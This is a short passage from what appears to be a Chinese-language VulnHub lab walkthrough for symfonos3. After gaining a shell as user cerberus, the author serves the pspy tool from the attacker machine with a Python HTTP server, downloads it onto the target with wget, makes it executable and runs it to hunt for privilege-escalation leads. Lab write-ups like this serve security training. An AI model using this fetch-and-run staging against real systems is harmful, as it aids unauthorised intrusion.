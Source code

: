 ![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/22.png)

cerberus 用户下没有找到可以提权的点,查看 passwd 用户可以发现还有个 hades 用户可以登录,使用 [pspy](https://github.com/DominicBreuker/pspy) 这个工具看看有哪些进程

```bash
python -m SimpleHTTPServer 8080
```

```bash
cd /tmp
wget 192.168.141.134:8080/pspy64
chmod +x pspy64
/tmp/pspy64
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/23.png)
